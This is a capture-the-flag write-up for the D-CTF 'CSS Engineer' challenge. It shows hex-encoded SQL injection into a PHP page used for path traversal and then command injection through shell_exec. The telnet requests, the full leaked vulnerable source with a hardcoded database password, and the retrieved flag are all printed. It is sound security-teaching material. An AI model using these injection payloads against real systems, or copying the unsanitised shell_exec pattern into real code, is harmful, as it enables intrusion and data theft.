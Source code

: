 # D-CTF : CSS Engineer

#### Author: ispo

We start by playing around with id and usr parameters. If we look at the source code we will see
a php file being the source of an image. Hmmmm how this code could be? the php should have something
like this:

    <?php
        header('Content-Type: image/jpeg');
        readfile('some_image.jpg');
    ?>

Let's use telnet to inspect what's going on:

    root@vasilikoula:~/ctf/dctf# telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    GET /?id=3&usr=1   

    cat: images/3_6.jpg: No such file or directory
    Connection closed by foreign host.

id=3 and usr=1 is trying to open image 3_6.jpg. After a while we find the pattern:
id is the first part of the file name. Then an underscore follows and finally a number
which depends on usr:

    switch( usr )
    {
    	case 1: name .= "6.jpg"
    	case 2: name .= "267.jpg"
    	case 3: name .= "269.jpg"
    	case 4: name .= "271.jpg"
    }

We can't do much with usr, so we should focus on id. Lets start "fuzzing" it:

    (echo -e "GET /?id=999999999999999&usr=1 HTTP/1.0\n\n"; sleep 0.5) | telnet 10.13.37.5 80

The above command returns the error:
    images/999999999999999_6.jpg: No such file or directory

Id parameter is "reflected". However id must be numeric. If we supply an non-numeric value, we'll
get the error "ID or User ID must be numeric". However if we supply hex literals we'll some
interesting things:

    root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x3336&usr=1 HTTP/1.0\n\n"; sleep 0.5)
                            | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 03:57:13 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 48
    Connection: close
    Content-Type: image/jpeg

    cat: images/36_6.jpg: No such file or directory
    Connection closed by foreign host.

Ok, got the point. Let's read index.php: "../index.php" -> 0x2e2e2f696e6465782e70687000

    root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x2e2e2f696e6465782e70687000&usr=1 HTTP/1.0\n\n"; sleep 0.5)
                                | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 03:58:19 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Connection: close
    Content-Type: image/jpeg
    WmzWZmPH7PZJtxOyff[..... TRUNCATED FOR BREVITY .....]Ugo5KtCkuSv8AAF

    <?php

    // ini_set('display_errors',1);
    // error_reporting(E_ALL);

    mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
    mysql_select_db('w400');

    if(isset($_GET['id'], $_GET['usr'])) {

        if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
            die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,/9j/4AAQSkZJRgABA[..... TRUNCATED FOR BREVITY .....]1zPsUtJJokWJn/2Q==">');
        }

        $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
        $path = mysql_result($q, 0);

        header('Content-Type: image/jpeg');
        echo shell_exec("cat images/$path 2>&1");
    } else {
        echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
        $q = mysql_query('SELECT * FROM `images`');
        while($row = mysql_fetch_array($q)) {
            echo '<h3>'.$row['user'].'</h3>';
            echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
        }
    }
    cNYXndfWopzZp0Hwl[..... TRUNCATED FOR BREVITY .....]JEnxqUZ8rXH9thbbeetl5
    Connection closed by foreign host.


We have the code now. The interesting part is the following lines:

    q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    echo shell_exec("cat images/$path 2>&1");

If we supply and id with spaces the result will be the following:

    root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x61206220632064&usr=2 HTTP/1.0\n\n"; sleep 0.5)
                | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:13:33 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 151
    Connection: close
    Content-Type: image/jpeg

    cat: images/a: No such file or directory
    cat: b: No such file or directory
    cat: c: No such file or directory
    cat: d_267.jpg: No such file or directory
    Connection closed by foreign host.

The multiple files is a consequence of cat command. Now we can manipulate $path which means that
we can execute arbitrary commands :)

Let's execute an ls: "foo; ls -la"

    root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x666f6f3b206c73202d6c6100&usr=2 HTTP/1.0\n\n";
                        sleep 0.5) | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:16:22 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 330
    Connection: close
    Content-Type: image/jpeg

    total 44
    drwxr-xr-x 3 root root  4096 Oct  3 16:15 .
    drwxr-xr-x 3 root root  4096 Oct  1 22:08 ..
    -rw-r--r-- 1 root root    17 Oct  1 22:20 .htaccess
    -rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
    drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
    -rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
    Connection closed by foreign host.

All we have to do is to access that strange file:

    http://10.13.37.5/6e8218531e0580b6754b3e3be5252873.txt
    DCTF{19b1f9f19688da85ec52a735c8da0dd3}
